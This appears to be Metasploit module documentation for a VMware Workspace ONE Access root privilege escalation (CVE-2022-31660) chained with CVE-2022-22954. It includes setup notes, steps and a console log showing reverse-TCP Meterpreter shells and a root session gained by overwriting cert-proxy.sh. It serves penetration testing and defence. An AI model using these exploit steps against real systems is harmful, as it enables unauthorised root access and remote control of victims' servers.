 ## Vulnerable Application
VMware Workspace ONE Access contains a vulnerability whereby the horizon user can escalate their privileges to those of
the root user by modifying a file and then restarting the vmware-certproxy service which invokes it. The service control
is permitted via the sudo configuration without a password.

### Setup

To exploit this vulnerability in conjunction with CVE-2022-22954, follow [Installing and Configuring VMware Workspace
ONE Access] or simply import the OVA into a **VMware hypervisor**. The target should be vulnerable to both
vulnerabilities out of the box.

The HW-150533, HW-154129, and HW-156875 patches may be optionally applied. In this case, a session will need to be
opened by some means to the appliance as the `horizon` user in order to be exploitable. This is most easily accomplished
by [resetting the root password], logging in locally, and then configuring SSH. Patches can be obtained from [VMware's
Website]. Steps to reset the `root` password are available [here].

[Installing and Configuring VMware Workspace ONE Access]: https://docs.vmware.com/en/VMware-Workspace-ONE-Access/21.08/workspace_one_access_install/GUID-0FABD001-050B-4A54-B100-2FA4E8F55613.html
[VMware's Website]: https://customerconnect.vmware.com/en/downloads/details?downloadGroup=WS1A_ONPREM_210801&productId=1192&rPId=79985
[resetting the root password]: https://kb.vmware.com/s/article/76530

## Verification Steps

1. Setup a vulnerable VMware instance (see the steps above).
2. Start msfconsole.
3. Obtain a session on the vulnerable instance.
    * It is recommend to use either `exploit/linux/http/vmware_workspace_one_access_cve_2022_22954` if the target is
      vulnerable to it or, alternatively, `exploit/multi/ssh/sshexec`.
4. Do: `set SESSION -1`
5. Optionally set the PAYLOAD and related options.
6. Do: `run`
7. If the target is vulnerable, the payload should be executed.

## Options

## Scenarios

### VMware Workspace ONE Access 21.08.0.1
In the following scenario, initial access is gained by first exploiting CVE-2022-22954. Once the session is opened, it
is elevated to root by exploiting CVE-2022-31660.

```
msf exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > show options

Module options (exploit/linux/http/vmware_workspace_one_access_cve_2022_22954):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.98   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.98
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.98:42312) at 2022-08-02 16:26:16 -0400

meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: horizon
meterpreter > background
[*] Backgrounding session 1...
msf exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > use exploit/linux/local/vmware_workspace_one_access_certproxy_lpe
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > set SESSION -1
SESSION => -1
msf exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > run

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Backing up the original file...
[*] Writing '/opt/vmware/certproxy/bin/cert-proxy.sh' (601 bytes) ...
[*] Triggering the payload...
[*] Sending stage (40132 bytes) to 192.168.250.237
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 192.168.250.237:63493) at 2022-08-02 16:26:57 -0400
[*] Restoring file contents...
[*] Restoring file permissions...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
